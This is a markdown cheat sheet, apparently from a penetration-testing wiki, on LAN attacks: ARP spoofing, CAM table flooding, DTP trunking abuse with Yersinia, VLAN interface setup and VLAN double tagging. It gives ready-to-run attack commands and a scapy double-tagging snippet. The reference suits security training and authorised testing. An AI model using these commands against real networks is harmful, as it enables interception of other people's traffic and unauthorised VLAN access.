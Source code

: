 # LAN Attacks

## ARP Spoofing

  - ARP spoofing consist on sending gratuitous ARPResponses to indicate that the IP of a machine has the MAC of our device. Then, the victim will change the ARP table and will contact our machine every time it wants to contact the IP spoofed.
  
### Bettercap2

 ``` 
  arp.spoof on
  arp.ban on # No ipv4-redirect
  arp.spoof.targets
  arp.spoof.whitelist
  arp.spoof.internal #Spoofed local connections (by default only Victim <--> Gateway )
  
  ```

### Arpspoof

  ``` 
  echo 1 > /proc/sys/net/ipv4/ip_forward
  arpspoof -t 192.168.1.1 192.168.1.2
  arpspoof -t 192.168.1.2 192.168.1.1
  ```

### MAC Flooding - CAM overflow

  - Overflow the switch's CAM table sending a lot of packets with different source mac address. When the CAM table is full the switch starts behaving like a hub(broadcasting all the traffic)
  
  `macof -i <interface>`

  - In modern switches this vulnerability has been fixed


### 802.1Q VLAN

Dynamic Trunking

  - Many switches support the Dynamic Trunking Protocol (DTP) by default, however, which an adversary can abuse to emulate a switch and receive traffic across all VLANs. The tool dtpscan.sh can sniff an interface and reports if switch is in Default mode, trunk, dynamic, auto or access mode (this is the only one that would avoid VLAN hopping). The tool will indicate if the switch is vulnerable or not.
  
  - If it was discovered that the the network is vulnerable, you can use Yersinia to launch an "enable trunking" using protocol "DTP" and you will be able to see network packets from all the VLANs.
    
```
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode


```

### Attacking Specific VLANs 

- Once you know VLAN IDs and IPs values, you can configure a virutal interface to attack a specific VLAN.

- If DHCP is not available, then use *ifconfig* to set a static IP address

```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
          inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:2206 (2.1 KiB)  TX bytes:1654 (1.6 KiB)

root@kali:~# arp-scan -I eth1.250 10.121.5.0/24

```

```
# Another configuration example
modprobe 8021q
vconfig add eth1 20
ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```

### Automatic VLAN Hopper

  - The attack of Dynamic Trunking and creating virtual interfaces and discovering hosts inside other VLANs are automatically performed by the tool: [VLAN Hopper - Github Repo](https://github.com/nccgroup/vlan-hopping---frogger)

Double Tagging

  - If an attacker knows the value of the **MAC**, **IP** and **VLAN ID** of the victim host, he could try to double tag a frame with its designated VLAN and the VLAN of the victim and send a packet. As the victim won't be able to connect back with the attacker, so the best option for the attacker is communicate via **UDP** to protocols that can perform some interesting actions (like **SNMP**).
    
  - Another option for the attacker is to launch a **TCP port scan** spoofing an IP controlled by the attacker and accessible by the victim (probably through internet). Then, the attacker could sniff in the second host owned by him if it receives some packets from the victim.
  
   - https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FHHYuR9d580W7O081ip6n%2Fimage.png?alt=media&token=b293aa52-b32c-407c-a5fb-a6cde8cca7ad
  
 - To perform this attack you could use scapy: `pip install scapy`
  
 ```
from scapy.all import *
# Double tagging with ICMP packet (the response from the victim isn't double tagged so it will never reach the attacker)
packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP()
sendp(packet)
 ```

### 
